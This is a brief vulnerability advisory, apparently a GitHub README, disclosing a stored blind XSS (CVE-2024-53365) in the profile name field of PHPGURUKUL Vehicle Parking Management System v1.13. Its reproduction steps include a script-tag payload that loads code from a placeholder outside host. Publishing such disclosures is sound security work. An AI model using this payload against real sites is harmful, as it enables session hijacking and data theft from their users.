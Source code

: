 # **CVE-2024-53365: Stored Blind Cross-Site Scripting (XSS) in PHPGURUKUL Vehicle Parking Management System v1.13**

## **Description**

A stored Blind Cross-Site Scripting (XSS) vulnerability was identified in PHPGURUKUL Vehicle Parking Management System v1.13 in the `/users/profile.php` page. This vulnerability allows authenticated users to inject malicious XSS scripts into the profile name field, which can lead to code execution on the client side.

## **Steps to Reproduce (PoC)**

1. Navigate to the vulnerable URL as an authenticated user: `/users/profile.php`.
2. Modify the profile name with an XSS payload, for example: `"><script src="https://severurl"></script>`.

## **Impact**

Successful exploitation may allow attackers to execute arbitrary JavaScript on the client side, potentially leading to data theft, session hijacking, or other malicious actions.

## **Credits**

Discovered by Mohammed Athif, October 2024.

## **References**

- CVE Record: [https://www.cve.org/CVERecord?id=CVE-2024-53365](https://www.cve.org/CVERecord?id=CVE-2024-53365)
- NVD Entry: [https://nvd.nist.gov/vuln/details/CVE-2024-53365](https://nvd.nist.gov/vuln/details/CVE-2024-53365)
